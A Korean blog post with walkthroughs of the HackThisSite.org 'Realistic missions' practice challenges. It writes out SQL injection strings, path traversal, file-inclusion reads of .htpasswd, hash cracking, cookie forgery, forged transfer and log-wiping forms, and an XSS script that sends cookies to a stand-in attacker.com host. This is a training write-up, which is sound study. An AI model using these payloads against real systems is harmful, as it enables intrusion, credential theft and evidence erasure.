

# Hackthissite.org Challenges: Realistic missions
웹해킹 관련 문제를 풀 수 있는 사이트인데 basic missions는 좀 간단한 것 같아서 실제 있을법한 문제들이 있는 [Realistic missions](https://www.hackthissite.org/missions/realistic/) 중에서 재미있어보이는 문제들을 풀어보았다. 풀이 과정을 간단하게 남겨본다. 문제 설명 과정에 힌트가 있기 때문에 메시지를 잘 읽어보는 것이 꽤 중요하다.

## Level 1. Uncle Arnold's Local Band Review
```text
Your friend is being cheated out of hundreds of dollars. Help him make things even again!
```
### 문제 원본
```text
From: HeavyMetalRyan 

Message: Hey man, I need a big favour from you. Remember that website I showed you once before? Uncle Arnold's Band Review Page? Well, a long time ago I made a $500 bet with a friend that my band would be at the top of the list by the end of the year. Well, as you already know, two of my band members have died in a horrendous car accident... but this ass hole still insists that the bet is on!
I know you're good with computers and stuff, so I was wondering, is there any way for you to hack this website and make my band on the top of the list? My band is Raging Inferno. Thanks a lot, man!
```

### 문제 요약
- [Uncle Arnold's Band Review Page](https://www.hackthissite.org/missions/realistic/1/)에서 본인이 속한 밴드가 연말 순위 1위를 하는지를 놓고 친구랑 500달러 내기를 했다.
- 밴드 멤버들이 교통사고로 죽었는데도 그 친구는 내기가 유효하다고한다. (공연을 할 수 없어 밴드 순위를 올릴 기회도 더이상 없다.) 
- 니가 컴퓨터를 잘 하니 웹사이트를 해킹해서 밴드를 리스트 최상단에 위치하도록 해다오.
- 밴드 이름은 **Raging Inferno**

### 문제 분석
- 점수를 1~5 사이로 선택하고 vote! 를 클릭하면 점수가 올라간다.
- 투표를 여러번 하는 것은 가능한데 이것이 반영되지는 않는다.
- 'Imposing Republic' 라는 밴드가 최상단에 있는데 평균 평점은 23.107846155906 점이다. 1~5점 사이인데 이 밴드 점수도 이상하다.
- 아무리 5점을 무한대로 눌러줘도 'Imposing Republic' 밴드의 평점을 넘어설 수는 없다. (평점이 5점이 넘으므로)

### 문제 해결

- 소스코드보기로 확인해보니 점수를 부과하는 소스코드는 다음과 같다.
```html
<form action="v.php" method="get">
  <input type="hidden" name="PHPSESSID" value="abcaeadfc31a5c43b2534bf995c0553f" />
	<input type="hidden" name="id" value="3" />
	<select name="vote">
		<option value="1">1</option>
		<option value="2">2</option>
		<option value="3">3</option>
		<option value="4">4</option>
		<option value="5">5</option>
	</select>
	<input type="submit" value="vote!" />
</form>
```
- "GET" 방식으로 form을 전송하므로 이를 변조하여 점수를 전송해본다.
```
http://www.hackthissite.org/missions/realistic/1/v.php
?PHPSESSID=abcaeadfc31a5c43b2534bf995c0553f
&id=3
&vote=10000
```
- 위 주소를 브라우저 주소창에 입력하여 점수를 한번에 10000점을 전송하여 해결!


## Level 2. Chicago American Nazi Party
```text
Racist pigs are organizing an 'anti-immigrant' rally in Chicago. Help anti-racist activists take over their website!
```
### 문제 원본
```text
From: DestroyFascism 

Message: I have been informed that you have quite admirable hacking skills. Well, this racist hate group is using their website to organize a mass gathering of ignorant racist bastards. We cannot allow such bigoted aggression to happen. If you can gain access to their administrator page and post messages to their main page, we would be eternally grateful.
```

### 문제 요약
- [Racist hate group's website](https://www.hackthissite.org/missions/realistic/2/)의 admin 페이지 접속 권한을 얻어서 메인 페이지에 메시지를 올려다오.

### 문제 해결
- 아랫쪽 그림 아래쪽 클릭해보면 update.php로 이동한다.
- 이동한 화면에 로그인창이 나타나는데 여기에 `sql injection`
- username은 아무거나 입력(admin), password는 `' or 1=1;` 입력

## Level 3. Peace Poetry: HACKED
### 문제 해결
- 소스코드 맨 아래에 아래와 같은 주석 있음
```html
<!--Note to the webmasterThis website has been hacked, but not totally destroyed. The old website is still up. I simply copied the old index.html file to oldindex.html and remade this one. Sorry about the inconvenience.-->
```

#### oldindex.html 살펴보기
- submitpoems.php 를 보면 시를 쓸 수 있고 아래와 같은 메시지 있다.
```text
Note: Poems will be stored online immediately but will not be listed on the main poetry page until it has a chance to be looked at.
```

일단 시가 저장이 된다는 것을 알았으니 어디에 저장되는지 생각해보면 아까 `/readpoem.php?name=Hacker` 처럼 get방식으로 시를 받아오므로 이와 같은 방법으로 불러올 수 있다는 것을 알 수 있다. 
- 그러나 시 제목을 ?name=poet_name 등으로 해보아도 반응 없음

다른 방법으로 생각해서 시 제목은 index.html로 바꾸는 것을 생각하였다. 별 방법이 없어서 디렉토리 개념으로 상위 디렉토리에 올려보니 `../index.html` 방법은 맞는데 사이트 내용을 `oldindex.html`로 변경하라고 메시지가 나왔다.

변경해서 올려서 해결!

## Level 4. Fischer's Animal Products
### 문제 해결
- 소스를 보니 이메일주소를 post방식으로 전송하고 있다.

이메일 입력창에 이메일 형식이 맞지 않는 문자를 입력했더니 아래와같이 메시지가 나왔다.
```text
Error inserting into table "email"! Email not valid!
```
- 테이블 명이 email인 것을 알 수 있음! (블라인드 인젝션인듯?)
- 쿼리문을 추가하여 출력해보기로 하였다. 다음 주소를 브라우저창에 입력하였다.
```text
http://www.hackthissite.org/missions/realistic/4/products.php?category=1 UNION ALL SELECT null,*,null,null FROM email
```
- 결과: 이메일 출력되었다. 이메일 출력된 결과는 다음과 같다.
```text
alph-alpha-brown@hotmail.com
sam.goodwin@yahoo.com
UltraDeathLaser@aol.com
SwingLow@hotmail.com
TeaBody@aol.com
jsmith@uic.edu
3ambeer@graffiti.net
shootfirst@yahoo.com
Bobby@friends.com
```

- 출력된 이메일을 HTS 메시지로 SaveTheWhales에게 전송하면 클리어했다고 메시지 온다.


## Level 5. Damn Telemarketers!
### 문제해결

- form등에서 인젝션 취약점 없는듯
- database 탭 확인

소스보기 하면 `<form action="secret/admin.php">` 와 같은 경로가 보여 브라우저에서 접속해보았다.  `http://www.hackthissite.org/missions/realistic/5/secret/admin.php` 
`Invalid Password`라고 메시지나 나왔다. 

다시 브라우저에 `http://www.hackthissite.org/missions/realistic/5/secret/`을 입력해보니 다음과 같이 파일 디렉토리 리스트가 보이는 페이지가 나왔다.
```
Index of /missions/realistic/5/secret
- Parent Directory
- admin.bak.php
- admin.php
```
admin.bak.php 파일을 클릭해보니 `error matching hash 7c5cbbedf29ebc07566cf09dadddb8d2`라는 메시지가 출력되었다.
hash로 암호화되어있는 파일을 해독하기 위해 [***cain & abel***](https://en.wikipedia.org/wiki/Cain_and_Abel_(software))  이라는프로그램 사용하였는데, 사용 방법은 다음과 같다. 
소프트웨어를 설치하고 cracker-MD4 Hashes에 add to list에 hash string을 넣고 bruteforce하면 해독된 값이 나온다.


- 결과값으로 나온 `05e04` 를 [database](https://www.hackthissite.org/missions/realistic/5/submit.html)의 패스워드 입력창에 넣으면 클리어!

## Level 6. ToxiCo Industrial Chemicals
- 이 문제는 패스

## Level 7. What's Right For America
### 문제해결
http://www.hackthissite.org/missions/realistic/7/images/ 에서 보면 파일 목록 볼 수 있고, admin directory가 리스트에 보인다. 


리스트에서 admin을 클릭하여 http://www.hackthissite.org/missions/realistic/7/images/admin에 접속하려고 하니 사용자 이름과 비밀번호를 입력하라고 한다. 여기에 접속하는 것이 관건인 듯...

이미지 파일 불러올 때 아래와 같이 불러온다.
```text
http://www.hackthissite.org/missions/realistic/7/showimages.php?file=patriot.txt
```
여기에 취약점 존재하는 것 같다...

혹시모르니 설정파일을 찾아보기로 하였다.
- http://www.hackthissite.org/missions/realistic/7/images/admin/.htaccess
```
Page Not Found
The requested URL /missions/realistic/7/images/admin/.htaccess was not found on this server.
```

- http://www.hackthissite.org/missions/realistic/7/images/admin/.htpasswd
```
Page Not Found
The requested URL /missions/realistic/7/images/admin/.htaccess was not found on this server.
```

page not found를 봤지만 포기하지 않고, 본 페이지에서 이미지를 불러오는 방식을 응용해보기로 했다. 이미지 불러올 때 했던 것 처럼 php파일뒤에 get방식으로 불러와보자.

- http://www.hackthissite.org/missions/realistic/7/showimages.php?file=images/admin/.htaccess
  + 뭔가 실마리가 보이는듯하다.
```html
<center><a href="AuthName "Administration Access"
"></a> <a href="AuthType Basic 
"></a> <a href="AuthUserFile /www/hackthissite.org/www/missions/realistic/7/images/admin/.htpasswd
"></a> <a href="require valid-user
"></a> <a href=""></a> </center></font>
</td></tr></table>
```

- 거의 다 온 것 같다. 소스코드보기로 확인
- `http://www.hackthissite.org/missions/realistic/7/showimages.php?file=images/admin/.htpasswd`

```html
<center><a href="administrator:$1$AAODv...$gXPqGkIO3Cu6dnclE/sok1
"></a> <a href=""></a> </center></font>
</td></tr></table>
```
  + `administrator:$1$AAODv...$gXPqGkIO3Cu6dnclE/sok1`를 이전 레벨에서와 같이 카인&아벨에 넣어보았으나 그걸로는 안깨졌다. 칼리리눅스에 있는 john the ripper로 해결!

```
Loaded 1 password hash (FreeBSD MD5 [128/128 SSE2 intrinsics 12x]) shadow(administrator) guesses: 1  time: 0:00:00:00 DONE (Wed Nov 5 16:09:07 2014) c/s: 2500  trying: 123456 - diamond Use the "--show" option to display all of the cracked passwords reliably
```
위와 같은 메시지가 나오면서 크랙이 완료된다. `/images/admin`에 아래 코드를 넣으면 클리어! 

ID: administrator, password: shadow

## Level 8. United Banks Of America

### 문제 요약
1. Find the account of Gary Hunter (I don't know his account name
  - GaryWilliamHunter
2. Move the $10,000,000 into the account dropCash.
3. Clear The Logs, They're held in the folder 'logFiles'. © All Rights Reserved(Linkback is required)
  - linkback 필요하다는 것 생각해두기

### 문제해결
- form-post방식, 클릭하면 login2.php로 이동
  - / input name: username, Password
  - register.php -> register2.php
- 등록한 후 로그인하면 들어가짐. 로그인된 경우에 돈 이동시킬 수 있음
- user info
  + 18글자만 입력 가능
- search.php -> search2.php
  + POST방식: '를 넣어보니 인젝션 취약점 있는듯
- 아이디를 넣으면 memo에 있는 내용이 출력됨
- `' or 1=1` 입력했더니 아이디랑 메모 나옴
- 의심가는 사람: GaryWilliamHunter : -- $$$$$ --
- 다 포스트방식이므로 javascript넣어야 할듯
- `javascript:alert(document.cookie)`
  + `ihateboa/123`으로 로그인 후 쿠키 보면 아래와 같음


	http://www.hackthissite.org/missions/realistic/8/login2.php

- 돈 먼저 옮기고, 로그삭제
  + `javascript:document.cookie="accountUsername=GaryWilliamHunter;"`
  + 아무 아이디나 로그인 한 상태에서 id만 게리헌터로 쿠키 변조

- 돈 옮기기
```html
javascript:document.write("
<form action='movemoney.php' method='POST'>
	<input type='submit' value='Move Money To A Different Account'>
	<input type='text' name='TO' value='dropCash'>
	<input type='text' name='AMOUNT' value='10000000'>
</form>")
```

- 로그 지우기
```html
javascript:document.write("
<form action='cleardir.php' method='POST'>
	<input type='hidden' name='dir' value='logFiles'>
	<input type='submit' value='Clear Files In Personal Folder'>
	</form>")
```

## Level 9. CrappySoft Software
### 문제해결
- 상사의 계정으로 들어가서 online payment system에 접속하기
  + 일단은 본인 아이디 사용하기
	+ Username: r-conner@crappysoft.com Password: ilovemywork
- Demo에 보면 프로그램 다운받을 수 있고, 실행시켜보면 아래와 같이 오류메시지가 뜨고 관리자 아이디가 나온다.


- 상사 이메일은 메시지 보내기에서 확인 가능하므로, 특별히 얻을 정보 없음
- `m-crap@crappysoft.com` 쿠키정보 확인
  + `javascript:alert(document.cookie)`

#### 세션하이잭킹

```html
<script>
  url="http://attacker.com/getCookie.php?cookie="+document.cookie;
	window.open(url,width-0,height=-;
</script>
```

- 위 스크립트를 private message로 보내면 아래 정보 나온다.

```text
strUsername=m-crap%40crappysoft.com;
strPassword=94a35a3b7befff5eb2a8415af04aa16c;
intID=1;
```

- 이걸 이용해서 쿠키정보 입력(가짜로그인)
```html
javascript:document.cookie="strUsername=m-crap%40crappysoft.com;"
javascript:document.cookie="strPassword=94a35a3b7befff5eb2a8415af04aa16c;"
javascript:document.cookie="intID=1;"
```


- 로그파일 지우기
  + http://www.hackthissite.org/missions/realistic/9/files/ 에서 로그파일확인
	+ 로그파일 경로: ./files/logs/logs.txt
  + 메일링리스트 경로: ./files/mailinglist/addresses.txt
	+ 이메일리스트에 가입하는 페이지에서 정보를 address.txt에 저장하는 내용 있음
	+ ->이걸 이용해서 로그파일에 내용""으로 덮어쓰기.

```html
javascript:document.write("<form action=subscribemailing.php method=post><input type=hidden name=strFilename value=./files/logs/logs.txt><input type=hidden name=strEmailAddress value=''><input type='submit' value='replacelogs'></form>")
```

- 주의! "" 안에 '로 묶어주거나 ''없이 써줘야 한다.

## Level 10: Holy Word High School
### 문제 요약

#### 학점바꾸기
- ID: Zach Sanchez
- password: liberty638
- Student Access System 로그인창 sql injection x, but get방식
- `student.php?uusername=Zach Sanchez&ppassword=liberty638&action=viewgrades&course=Mathematics`
- bible study 2학기 fail, gym 2학기 fail

#### staff정보
- Mr. Jonathan Goodman Bible Study jgoodman@holycross.edu
- Mrs. Ann Feldman P.E.Health afeldman@holycross.edu

```
http://192.168.0.65/blind.php?id=1 union SELECT id,title,news from Anews union all select COLUMN_NAME,COLUMN_NAME,COLUMN_NAME from information_schema.COLUMNS
```
```
http://www.hackthissite.org/missions/realistic/10/student.php?uusername=Zach Sanchez;&ppassword=
```
```
http://www.hackthissite.org/missions/realistic/10/student.php?uusername=Jonathan Goodman;&ppassword=
```

```html
javascript:document.write("
<form action=/missions/basic/4/level4.php method=post>
  <input type=hidden name=to value=sam2@hsite.abc />
	<input type=submit value=Send password to Sam />
</form>
</center><br /><br />
<center><b>Password:</b><br />

<form action=/missions/basic/4/index.php method= post>
  <input type=password name=password  /><br /><br />
	<input type=submit value=submit /></form>")
```

- id=1번, id/pw 동일함
```
http://www.hackthissite.org/missions/realistic/10/student.php?uusername=Jonathan Goodman;&ppassword=
```

- 관리자로그인창: http://www.hackthissite.org/missions/realistic/10/staff.php

smiller / smiller

Welcome, Mrs. Samantha Miller! Please remember that access to the staff administration area is restricted to the district-supplied 'holy_teacher' web browser.
- 웹브라우저가 holy_teacher웹브라우저인 경우에만 접속 가능

접속한 브라우저 확인
```html
javascript:alert(navigator.userAgent)
```
- 익스플로러-도구-개발자도구-도구-사용자에이전트문자열변경-사용자지정-holy_teacher로 변경

이번에는 아래와 같은 메시지 나옴
- note:you are not an administrator so you cannot change grades

권한변경해주기
```html
javascript:document.cookie="admin=1;"
```
변경가능해졌음.

- submit grades

Sorry, Mrs. Samantha Miller, it is too late into the school year to change grades now.
- Change Grades의 소스보기에서바꿀 내용의 form 보고 get방식의 코드 작성해줌(post방식으로는 안됨)
```
#### GRADE1
http://www.hackthissite.org/missions/realistic/10/staff.php?action=changegrades&changeaction=modrec&rec=0&studentid=1&grade=5&comments=HACKED

#### GRADE2
http://www.hackthissite.org/missions/realistic/10/staff.php?action=changegrades&changeaction=modrec&rec=3&studentid=1&grade=5&comments=HACKED

해결 완료!